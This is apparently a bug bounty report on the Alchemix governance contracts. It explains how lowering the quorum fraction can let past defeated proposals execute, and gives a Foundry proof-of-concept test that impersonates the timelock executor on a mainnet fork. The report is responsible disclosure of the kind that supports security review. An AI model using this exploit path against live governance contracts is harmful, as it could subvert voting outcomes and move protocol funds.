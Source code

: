 
# `AlchemixGovernor` updates to quorum can affect past defeated proposals

Submitted on Wed May 08 2024 07:10:54 GMT-0400 (Atlantic Standard Time) by @Lastc0de for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30926

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/AlchemixGovernor.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
In governance, there are usually proposals that for some reason (such as lack of quorum, and the number of votes ) defetated. This issue concerns instances of Governor that use the module `GovernorVotesQuorumFraction` In your protocol it is known as L2GovernorVotesQuorumFraction :

https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/governance/L2GovernorVotesQuorumFraction.sol

GovernorVotesQuorumFraction: Combines with GovernorVotes to set the quorum as a fraction of the total token supply.
AlchemixGovernor inherits this module

~~~
contract AlchemixGovernor is L2Governor, L2GovernorVotes, L2GovernorVotesQuorumFraction /* @AUDIT */, L2GovernorCountingSimple
~~~
So this make vulnerable AlchemixGovernor contract.

If this report is unclear to you, refer to the reference link

## Vulnerability Details

Vulnerable contract is `AlchemixGovernor.sol` && `L2GovernorVotesQuorumFraction.sol`

https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/governance/L2GovernorVotesQuorumFraction.sol

Vulnerable function is  `quorum()` :

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/governance/L2GovernorVotesQuorumFraction.sol#L49C1-L51C6
~~~
    function quorum(uint256 blockTimestamp) public view virtual override returns (uint256) {
        return (token.getPastTotalSupply(blockTimestamp) * quorumNumerator()) / quorumDenominator();
    }
~~~
The  `token.getPastTotalSupply(blockNumber)` call will not be optimized the same way and, A mechanism that determines quorum requirements as a percentage of the voting token's total supply. when a proposal is passed to lower the quorum requirement, past proposals may become executable if they had been defeated only due to lack of quorum, and the number of votes it received meets the new quorum requirement.

## Impact Details
Past proposals may become executable if they had been defeated only due to lack of quorum, and the number of votes it received meets the new quorum requirement.

## References

https://github.com/OpenZeppelin/openzeppelin-contracts/security/advisories/GHSA-xrc4-737v-9q75

https://docs.openzeppelin.com/contracts/4.x/api/governance
        
## Proof of concept
## Proof of Concept
* To manually prank the executer and call a function with `onlyGovernance` modifier we need add calldata to queue:

1- Add the following function ro `L2Governor.sol` file
~~~
        function pushCalldata(bytes calldata hash) public {
        _governanceCall.pushBack(keccak256(hash));
    }
~~~

2- Add following function to ` AlchemixGovernor.t.sol` file
~~~
function test_Execute_Defeated_Proposal_After_Update_Quorum() public {
    // Random users
        address jimmy = 0xc8dF939C61A33Aa83435bddcE76e6179f4653302;
    address sara = 0x72414Fe88759857e69797B4558a1f1475F32A462;
   
        createVeAlcx(sara, 5000e18, MAXTIME, false);
        createVeAlcx(jimmy, 15_000e18, MAXTIME, false);
       
        assertFalse(voter.isWhitelisted(usdc));

        (address[] memory t, uint256[] memory v, bytes[] memory c, string memory d) = craftTestProposal();

        hevm.warp(block.timestamp + 2 days); // delay

        uint256 quorum = governor.quorum(block.timestamp);
        uint256 votingPower = veALCX.getVotes(admin);

        assertGt(votingPower, quorum, "voting power should be greater than quorum");

        // propose
        hevm.startPrank(admin);
        uint256 pid = governor.propose(t, v, c, d, MAINNET);
        hevm.warp(block.timestamp + governor.votingDelay() + 1); // voting delay
        hevm.roll(block.number + 1);
        hevm.stopPrank();

        // vote by sara
        hevm.startPrank(sara);
        governor.castVote(pid, 1);
        hevm.stopPrank();
        // vote by jimmy
        hevm.startPrank(jimmy);
        governor.castVote(pid, 1);
        hevm.warp(block.timestamp + governor.votingPeriod() + 1); // voting period
        hevm.stopPrank();

        // execute
        hevm.startPrank(admin);
        hevm.warp(block.timestamp + timelockExecutor.executionDelay() + 1); // execution delay
        hevm.expectRevert(abi.encodePacked("Governor: proposal not successful"));
        governor.execute(t, v, c, keccak256(bytes(d)), MAINNET);

        hevm.warp(block.timestamp + governor.votingPeriod() + 10); // update timestamp
        hevm.stopPrank();
       
        // Update quorum numerator with governance

        address executor = address(governor.timelock());

        // Prepare the calldata
        bytes memory calldataRequired = abi.encodeWithSelector(
        bytes4(keccak256("updateQuorumNumerator(uint256)")),1000);

        // Add it to the queue
        governor.pushCalldata(calldataRequired);

        hevm.startPrank(address(executor));

        // Impersonate the executor and call the function
        // Update.
        governor.updateQuorumNumerator(1000);

        hevm.stopPrank();

        // Execute past defeated Proposal
        governor.execute(t, v, c, keccak256(bytes(d)), MAINNET);


        assertTrue(voter.isWhitelisted(usdc));
    }
~~~

3- Run test
~~~
forge test --match-test "test_Execute_Defeated_Proposal_After_Update_Quorum" --fork-url https://eth-mainnet.public.blastapi.io -vvvv
~~~